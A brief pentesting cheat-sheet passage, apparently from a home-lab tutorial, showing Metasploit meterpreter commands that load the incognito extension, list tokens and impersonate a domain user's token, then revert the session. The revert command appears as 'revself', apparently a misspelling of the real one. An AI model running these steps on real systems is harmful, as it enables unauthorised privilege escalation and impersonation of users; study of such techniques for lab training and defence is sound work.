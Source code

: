 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**

![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the meterpreter session to its original state
```powershell
meterpreter > revself
```